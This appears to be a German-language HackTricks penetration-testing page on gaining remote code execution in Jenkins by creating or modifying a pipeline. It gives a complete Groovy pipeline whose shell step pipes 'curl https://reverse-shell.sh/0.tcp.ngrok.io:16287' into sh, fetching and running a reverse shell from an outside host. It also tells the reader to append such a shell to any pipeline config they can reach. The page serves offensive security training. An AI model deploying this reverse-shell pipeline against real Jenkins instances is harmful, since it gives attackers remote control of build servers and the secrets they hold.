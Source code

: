 # Jenkins RCE Erstellen/Ändern von Pipelines

{{#include ../../banners/hacktricks-training.md}}

## Erstellen einer neuen Pipeline

Wählen Sie in "Neues Element" (erreichbar unter `/view/all/newJob`) **Pipeline:**

![](<../../images/image (235).png>)

Schreiben Sie im **Pipeline-Bereich** die **Reverse Shell**:

![](<../../images/image (285).png>)
```groovy
pipeline {
agent any

stages {
stage('Hello') {
steps {
sh '''
curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh
'''
}
}
}
}
```
Klicken Sie schließlich auf **Speichern** und **Jetzt bauen**, und die Pipeline wird ausgeführt:

![](<../../images/image (228).png>)

## Eine Pipeline ändern

Wenn Sie auf die Konfigurationsdatei einer konfigurierten Pipeline zugreifen können, könnten Sie sie einfach **ändern, indem Sie Ihre Reverse-Shell anhängen** und sie dann ausführen oder warten, bis sie ausgeführt wird.

{{#include ../../banners/hacktricks-training.md}}

